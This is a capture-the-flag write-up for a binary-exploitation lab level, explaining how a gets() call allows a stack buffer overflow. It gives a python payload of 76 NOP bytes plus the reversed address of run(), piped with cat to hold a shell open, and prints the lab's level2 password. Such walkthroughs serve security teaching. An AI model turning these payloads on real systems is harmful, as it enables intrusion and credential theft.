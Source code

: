 # Level1

> For introductory information on this operating system and binary securities, check [here](./Ressources/README.md).

Let's see what does the binary do.

```shell
  $> ./level1

  $> ./level1
  randomstring
```

> Seems like this program want us to input something during its execution but it does not output anything back.

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./Ressources/gdb.md)). We find that this program is using [`gets()`](https://linux.die.net/man/3/gets) and according to the documentation there is a known bug with it...

> Never use `gets()`. Because it is impossible to tell without knowing the data in advance how many characters `gets()` will read, and because `gets()` will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security.

After some research the obvious path to take is to exploit this fuction to create a [buffer overflow attack](https://en.wikipedia.org/wiki/Buffer_overflow). In order to do this, we must compute the buffer offset using **data section** of our `gdb` analysis stated above, we find that the offset is `76`.

Then we need to construct a call to `run()` using this offset and the function's address.

```shell
  $> (python -c "print '\x90' * 76 + '\x08\x04\x84\x44'[::-1]") | ./level1
  Good... Wait what?
  Segmentation fault (core dumped)
```

> We append the address of `run()` in reverse (this is what `[::1]` is used for, in python it's a reverse string opperation) to respect [byte order](https://en.wikipedia.org/wiki/Endianness) after a list of **76** [NOP instructions](https://en.wikipedia.org/wiki/NOP_(code)).

Segfault still happens but we know that we are on the right track because we get into a shell but since it is executed via `system()` this time, it returns when the command is finished. Asking to open a shell is not enough to stay in it. We need to use something that does read on standard input indefinitely like [`cat`](https://man7.org/linux/man-pages/man1/cat.1.html).

```shell
  $> (python -c "print '\x90' * 76 + '\x08\x04\x84\x44'[::-1]"; cat) | ./level1
  Good... Wait what?
  cat /home/user/level2/.pass
  53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

So next user credentials pair is `level2:53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`.

Check [here](./source.c) for reproduction source-code of this binary.